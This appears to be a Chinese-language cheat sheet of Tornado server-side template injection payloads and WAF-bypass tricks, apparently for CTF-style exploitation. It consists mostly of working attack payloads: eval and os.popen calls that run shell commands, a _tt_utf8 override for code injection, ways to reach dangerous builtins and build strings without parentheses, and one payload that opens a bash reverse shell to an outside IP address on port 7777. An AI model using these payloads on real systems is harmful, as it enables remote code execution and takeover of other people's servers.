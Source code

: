 # 常见payload
	- ```python
	  {{handler.settings}}
	  {%raw eval('__import__("os").popen("ls /").read()')%}
	  {{eval('[].__class__.__mro__[1].__subclasses__()[231]("ls",shell=1,stdout=-1).communicate()')}}
	  ```
- # 代码注入
	- ```
	  {% raw "__import__('os').popen('ls').read()"%0a    _tt_utf8 = eval%}{{'1'%0a    _tt_utf8 = str}}
	  ```
- # WAF绕过
	- 读取文件
		- `{%extends xxx%}`
		- `include`
	- 括号
		- `{%raw 114%}`计算并输出表达式，配合apply可以实现函数调用绕过括号
			- 可以直接将字符串传给eval
			- `{%apply x.append%}{%raw {114:1}[k]%}{%end%}`
		- `_tt_utf8`
			- ```
			  ssti={%25 set _tt_utf8 =eval %25}{%25 raw request.body_arguments[request.method][0] %25}&POST=import(‘os’).popen(“bash -c ‘bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F23.224.22.11%2F7777%20%3C%261’”)
			  ```
	- 获取危险函数
		- ``handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['eval']``
		- `{%import os%}`
		- 命名空间里有datetime模块,也就是说可以拿到sys模块`datetime.sys`
			- 然后就可以使用`sys.modules`拿到已经加载的模块
			- ``datetime.sys.modules["os"].system``
			- ```python
			  namespace = {
			    "escape": escape.xhtml_escape,
			    "xhtml_escape": escape.xhtml_escape,
			    "url_escape": escape.url_escape,
			    "json_encode": escape.json_encode,
			    "squeeze": escape.squeeze,
			    "linkify": escape.linkify,
			    "datetime": datetime,
			    "_tt_utf8": escape.utf8,  # for internal use
			    "_tt_string_types": (unicode_type, bytes),
			    # __name__ and __loader__ allow the traceback mechanism to find
			    # the generated source code.
			    "__name__": self.name.replace(".", "_"),
			    "__loader__": ObjectDict(get_source=lambda name: self.code),
			  }
			  ```
			-
	- 构造字符串
		- `handler.get_argument`拿到某个GET参数
			- ``handler.get_argument('yu')``
		- `request.method`请求方法
		- `request.arguments`POST（也许也有GET？）参数的字典，但是值是一堆bytes
		- `request.files`上传文件的字典
		- `request.headers`里面可以拿到^^字符串形式的Headers^^
		- `datetime.sys.base_exec_prefix`是一个字符串
		- `datetime.sys.builtin_module_names`有一堆字符串
		- 利用列表从一个字典中取出所有的值，可以用来从headers字典中取出字符串
			- ```
			  {%set x=[]%}
			  {%for k in {114:514}%}
			  {%apply x.append%}{%raw {114:1}[k]%}{%end%}
			  {%end%}
			  ```
			- ```
			  {%set x=[]%}
			  {%set d={114:514}%}
			  {%set g=iter(d)%}
			  {%try%}
			  {%while 1%}
			  {%apply x.append%}{%raw next(g)%}{%end%}
			  {%end%}
			  {%except%}
			  {%end%}
			  ```
	- 其他
		- `extends`渲染另一个模板
- # 参考
	- https://xz.aliyun.com/t/12260#toc-10
	- https://blog.csdn.net/miuzzx/article/details/123329244
